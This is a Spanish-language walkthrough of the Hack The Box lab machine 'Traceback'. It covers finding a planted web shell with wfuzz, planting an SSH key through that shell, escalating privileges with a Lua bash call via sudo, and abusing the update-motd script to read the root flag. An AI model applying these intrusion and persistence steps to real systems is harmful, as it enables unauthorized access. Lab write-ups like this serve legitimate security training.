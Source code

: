 ## Traceback
## Herramientas a Utilizar
- nmap
- wfuzz
- ssh-keygen
- chmod

```
nmap -n -A -o scan.tracerback.txt 10.10.10.181
```

Iremo a la siguiente web:
```
https://github.com/TheBinitGhimire/Web-Shells
```

Debemos descargaremos todo los nombre de shell de este site y lo pondremos en txt.

El cual llamaremos: `rsearch.txt`

Luego buscaremos coincidencia de las misma con el siguiente comando.
```
wfuzz -c -z file,'rsearch.txt' http://10.10.10.181/FUZZ
```
Encontraremos 

000000015: 200 58 L 100 W 1261 Ch `"smevk.php" `

Debemos ejecutar ahora
```
http://10.10.10.181/smevk.php
```

En este panel debemos escribir `"Change Dir"` 
nos movemos a 
```
/home/.ssh/
```
Aqui debemos crear nuestra propia llave de ssh `publica` y `privada` para conectarno

**Como generamos nuestra Llaves.**
En nuestra maquina iremos a `home` de nuestro usuario y accederemos al directorio `.ssh`

Desde aqui ejecutaremos:
```
ssh-keygen <enter>
```
>[+] Enter file in which to save the key `(/home/ylo/.ssh/id_rsa):` *presionadmos enter*
Enter passphrase `(empty for no passphrase):` *Digitamos nuestra clave*
Enter same passphrase again: *Confirmamos la clave digitada*


Este proceso nos generara dos archivo:
`id_rsa` = *Llave privada*
`id_rsa.pub` = *Llave publica*

Copiamos el contenido de nuestra llave publica `id_rsa.pub` y Creamos un archivo llamado `authorized_key`.
```
cp id_rsa.pub authorized_key
```

Ahora volver al portal
```
http://10.10.10.181/smevk.php
```
Nos movemos al diretorio
```
/home/webadmin/.ssh/ 
```
Eliminaremos el archivo `authorized_key` 
Luego subimos nuestro archivo `authorized_key`

>Volvemos a nuestra maquina desde donde creamos nuestra llaves publica y privada
y al archivo `id_rsa` le cambiar el permiso para poder utilizarlo.

```
chmod 444 id_rsa
```

Nos conectaremos a la maquina de la siguiente manera:

```
ssh -i id_rsa webadmin@10.10.10.181
```
Si todo va bien solo debemos poner la clave con la cual generamos la llaves.

>Una vez dentro podemos ver un archivo llamado `trace.lua` con el cual posiblemente podriamo escaleremos privilegio.
```
ls -la trace.lua
```

Continuando la enumeracion si ejecutamos 
```
ps aux
````
>Notaremos que un proceso que esta ejecutando lo siguiente:
`sudo -u sysadmin /home/sysadmin/luvit` 
Entre otra cosas, pero solo tomaremos esta parte.

Ahora tenemos lo siguiente:
`sudo -u sysadmin /home/sysadmin/luvit`
El contenido del archivo trace.lua
`os.execute("/bin/bash -i")`

Por lo que si ejecutamos:
```
sudo -u sysadmin /home/sysadmin/luvit trace.lua 
whoami
sysadmin 
```
Y con esto tenemos permiso de `sysadmin`

```
cd /home/sysadmin
cat user.txt
```

Ahora para conseguir la Flag del root y despues de buscar y buscar y buscar 😢  iremos a:

```
cd /etc/update-motd.d/
cat 00-header
```
Este archivo nos muestra una forma muy peculiar de ejecutar algo al momento de iniciar session ssh
```
echo "cat /root/root.txt" >> 00-header
```

Inmediatamente abriremos otra Terminal para conectarnos otra vez via ssh.
```
ssh -i id_rsa webadmin@10.10.10.181
```

Al conectarno en el Welcome del ssh debe aparecer la flag del root. 🤷‍♂️